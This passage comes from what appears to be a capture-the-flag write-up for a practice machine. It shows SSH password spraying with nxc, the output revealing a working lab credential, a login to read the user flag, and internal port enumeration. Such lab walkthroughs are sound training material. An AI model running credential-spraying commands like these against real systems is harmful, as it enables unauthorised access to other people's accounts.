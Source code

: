 I have a little issue sometimes with `john` where it doesn't show the usernames, so I used `nxc` to spray those passwords, normally I can just grab the hash from `john`'s pot file (`$HOME/.john/john.pot`) but I wanted to try the ssh spraying `module` in `nxc`

```bash
$ nxc ssh artificial.htb -u w -p pass --continue-on-success
SSH         10.10.11.74     22     artificial.htb   [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.13
SSH         10.10.11.74     22     artificial.htb   [+] gael:mattp005numbertwo  Linux - Shell access!
SSH         10.10.11.74     22     artificial.htb   [-] mark:mattp005numbertwo
SSH         10.10.11.74     22     artificial.htb   [-] robert:mattp005numbertwo
SSH         10.10.11.74     22     artificial.htb   [-] royer:mattp005numbertwo
SSH         10.10.11.74     22     artificial.htb   [-] mary:mattp005numbertwo
SSH         10.10.11.74     22     artificial.htb   [-] mark:marwinnarak043414036
SSH         10.10.11.74     22     artificial.htb   [-] robert:marwinnarak043414036
SSH         10.10.11.74     22     artificial.htb   [-] royer:marwinnarak043414036
SSH         10.10.11.74     22     artificial.htb   [-] mary:marwinnarak043414036 
```

then logged in the grab the user flag

```bash
$ ssh gael@artificial.htb
gael@artificial.htb''s password:
Last login: Fri Oct 24 16:01:30 2025 from 10.10.15.86
gael@artificial:~$ ls
user.txt
gael@artificial:~$ cat user.txt
a9****************************81
gael@artificial:~$
```

## root

I checked open ports and found `9898` open internally
``` bash
gael@artificial:/opt/backrest$ ss -lntp
State           Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process
LISTEN          0               4096                         127.0.0.1:9898                        0.0.0.0:*
LISTEN          0               511                            0.0.0.0:80                          0.0.0.0:*
LISTEN          0               4096                     127.0.0.53%lo:53                          0.0.0.0:*
LISTEN          0               128                            0.0.0.0:22                          0.0.0.0:*
LISTEN          0               2048                         127.0.0.1:5000                        0.0.0.0:*
LISTEN          0               511                               [::]:80                             [::]:*
LISTEN          0               128                               [::]:22                             [::]:*
```
